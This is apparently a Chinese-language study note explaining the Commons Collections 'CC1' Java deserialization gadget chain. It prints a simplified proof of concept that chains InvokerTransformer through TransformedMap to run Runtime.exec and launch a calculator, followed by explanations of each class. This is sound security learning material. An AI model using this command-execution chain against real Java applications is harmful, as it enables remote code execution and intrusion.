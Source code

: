 ```yaml
---
created: '21/11/06'
title: 反序列化篇3
tags:
  - java
  - java安全
  - 反序列化
---
```

# 反序列化篇3
## CC1
这篇文章主要是讲解了CC1链的本质，让读者能够更容易地明白。
这里P牛的pdf已经写的很好了，就稍微总结一下。

这个是P牛简化过的代码，执行后将会弹计算器(需要稍微修改下代码，如package，/System/Applications/Calculator.app/Contents/MacOS/Calculator):
```java
package com.govuln.deserialization;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsIntro {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.getRuntime()),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

这里需要学习的就是几个新的类。

### 理解类
#### TransformedMap
> TransformedMap⽤于对Java标准数据结构Map做⼀个修饰，被修饰过的Map在添加新的元素时，将执⾏⼀个回调。我们通过下面这行代码对innerMap进⾏修饰，传出的outerMap即是修饰后的Map
```java
Map outerMap = TransformedMap.decorate(innerMap, keyTransformer, valueTransformer);
```

#### Transformer
Transformer是⼀个接口，它只有⼀个待实现的方法`transform`，TransformedMap在转换新元素时，就会调用Transformer中的transform方法。

#### ConstantTransformer
ConstantTransformer是实现了Transformer接⼝的⼀个类，其构造函数是接收一个对象并存储，在transform时将该对象返回
```java
public ConstantTransformer(Object constantToReturn) { super(); iConstant = constantToReturn;
}
public Object transform(Object input) { return iConstant;
}
```

#### InvokerTransformer
> InvokerTransformer是实现了Transformer接口的⼀个类，这个类可以用来执行任意方法，这也是反序列化能执行任意代码的关键。

构造方法如下:
```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    super();
    iMethodName = methodName;
    iParamTypes = paramTypes;
    iArgs = args;
}
```
transform方法如下，执行了input对象的iMethodName方法:
```java
public Object transform(Object input) {
if (input == null) {
    return null;
} try {
    Class cls = input.getClass();
    Method method = cls.getMethod(iMethodName, iParamTypes); 
    return method.invoke(input, iArgs);
} catch (NoSuchMethodException ex) {
    // ...
}
```

#### ChainedTransformer
> ChainedTransformer也是实现了Transformer接⼝的⼀个类，它的作⽤是将内部的多个Transformer串 在⼀起。通俗来说就是，前⼀个回调返回的结果，作为后⼀个回调的参数传⼊，我们画⼀个图做示意：
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211106110501.png)

### 理解Demo
当我们理解上面几个类的作用之后，Demo的代码就非常容易理解了，其实际上分为以下几个步骤:
1. 创建了一个链式的Transformer(`ChainedTransformer`)，其中包含了两个Transformer(`ConstantTransformer`和`InvokerTransformer`)，目的是为了执行`Runtime.exec`方法
2. 创建HashMap实例，并用`TransformedMap.decorate`来包装HashMap，当发生value转换的时候回调`ChainedTransformer`
3. 使用`HashMap.out`方法往Map中放入新元素，触发回调
